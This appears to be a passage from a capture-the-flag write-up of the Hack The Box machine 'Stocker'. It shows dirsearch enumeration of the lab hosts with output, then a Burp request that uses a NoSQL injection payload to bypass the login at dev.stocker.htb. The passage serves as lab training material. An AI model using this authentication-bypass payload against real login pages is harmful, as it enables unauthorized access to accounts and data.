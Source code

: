 ```bash
dirsearch -u http://stocker.htb/
```

```bash
[22:57:41] 301 -  178B  - /js  ->  http://stocker.htb/js/                  
[22:58:00] 301 -  178B  - /css  ->  http://stocker.htb/css/                 
[22:58:03] 200 -    1KB - /favicon.ico                                      
[22:58:03] 301 -  178B  - /fonts  ->  http://stocker.htb/fonts/             
[22:58:05] 301 -  178B  - /img  ->  http://stocker.htb/img/                 
[22:58:05] 200 -   15KB - /index.html                                       
[22:58:06] 403 -  564B  - /js/ 
```

### dev.stocker.htb

```bash
dirsearch -u http://dev.stocker.htb/
```

```bash
[23:05:33] 200 -    3KB - /login                                            
[23:05:33] 200 -    3KB - /login/                                           
[23:05:33] 302 -   28B  - /logout  ->  /login                               
[23:05:33] 302 -   28B  - /logout/  ->  /login                              
[23:05:47] 301 -  179B  - /static  ->  /static/
```

## Website

Visiting [http://stocker.htb](http://stocker.htb) we can see that it is just a plain simple html page without anything that indicates an attack vector  

When checking http://dev.stocker.htb](http://devstocker.htb) we are getting redirected to a login page

# Exploitation

## NoSQL Auth Bypass

After trying different things for a while I discovered that the login is vulnerable to [NoSQL Authentication Bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass).  

**Burp: POST-Request**

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

{"username": {"$ne": null}, "password": {"$ne": null} }
```
